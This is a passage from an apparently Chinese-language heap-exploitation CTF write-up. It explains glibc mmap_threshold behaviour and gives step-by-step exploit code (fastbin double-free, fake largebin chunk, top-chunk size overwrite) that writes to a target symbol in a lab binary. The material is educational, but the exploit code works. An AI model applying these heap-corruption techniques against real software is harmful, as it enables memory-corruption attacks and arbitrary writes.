 ![](https://static.hack1s.fun/images/2021/12/11/image-20211211190928605.png)

改变这个阈值的情况就是当释放掉一个特别大并且有 mmaped 标识位的 chunk 时，如果它的大小大于现在的`mp_.mmap_threshold`就扩大这个阈值

所以我们改写一下 exploit，free 掉这个 mmap 的空间，并再申请一次

```
very_big = malloc(0x5fff8,'bbbig')
free(very_big)
very_big = malloc(0x5fff8,'bbbig')

fast_A = malloc(0x18, "A"*8)
fast_B = malloc(0x18, "B"*8)

free(fast_A)
free(fast_B)
free(fast_A)

malloc(0x18,p64(elf.sym.user))
large = malloc(0x88,'bbbb')
free(large)

amend_age(0x80001)
malloc(0x80008,'bbb')

```

这时再运行可以发现 gdb 没有报错了

主动暂停一下看看，可以看到`mmap_threshold`增大到了 0x61000

另外整个堆空间的大小变成了 0x81000

最后就是成功将 fake chunk 加入到了 largebin

![](https://static.hack1s.fun/images/2021/12/11/image-20211211191454847.png)

可以看到 skiplist 的 fd、bk 也已经有了值

那么最后只需要申请一个超级大的空间，让内存滚上一圈

再申请下来 target 的空间就可以了

```
very_big = malloc(0x5fff8,'bbbig')
free(very_big)
very_big = malloc(0x5fff8,'bbbig')

fast_A = malloc(0x18, "A"*8)
fast_B = malloc(0x18, "B"*8)

free(fast_A)
free(fast_B)
free(fast_A)

malloc(0x18,p64(elf.sym.user))
large = malloc(0x88,'bbbb')
free(large)

amend_age(0x80001)
malloc(0x80008,'bbbb')

amend_age(0xfffffffffffffff1)
malloc(0xffffffffffffffff-elf.sym.user+elf.sym.target-0x20, 'bbbb')
malloc(0x18, b"Much Win\x00")

```
